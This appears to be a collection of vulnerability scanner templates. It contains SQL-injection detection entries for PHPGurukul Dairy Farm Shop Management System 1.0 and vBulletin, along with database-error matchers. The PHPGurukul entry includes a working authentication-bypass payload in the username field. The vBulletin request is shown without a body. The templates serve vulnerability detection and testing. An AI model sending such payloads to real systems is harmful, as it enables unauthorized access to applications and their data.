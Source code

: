 **Type - word**
- words
    1. DatabaseError at
    2. ORA-29257:
    3. ORA-06512:
    4. Request Method:
- condition - and

---
# PHPGurukul Dairy Farm Shop Management System 1.0 - SQL Injection
## Description
- PHPGurukul Dairy Farm Shop Management System 1.0 is vulnerable to SQL injection, as demonstrated by the username parameter in index.php, the category and CategoryCode parameters in add-category.php, the CompanyName parameter in add-company.php, and the ProductName and ProductPrice parameters in add-product.php.
- severity - critical
- tags - sqli,edb,cve,cve2020
## Requests
### Step - 1
```
POST /dfsms/ HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin%27+or+%271%27+%3D+%271%27%3B+--+-&password=A&login=

```
### Matchers

**Type - word**
- part - header
- words
    1. add-category.php

**Type - status**
- status
    1. 302

---
# vBulletin SQL Injection
## Description
- vBulletin before 5.5.6pl1, 5.6.0 before 5.6.0pl1, and 5.6.1 before 5.6.1pl1 has incorrect access control that permits SQL injection attacks.
- severity - critical
- tags - cve2020,vbulletin,sqli,packetstorm,cve
## Requests
### Step - 1
```
POST /ajax/api/content_infraction/getIndexableContent HTTP/1.1
Host: {{Hostname}}
X-Requested-With: XMLHttpRequest
Accept: */*
Content-Type: application/x-www-form-urlencoded

```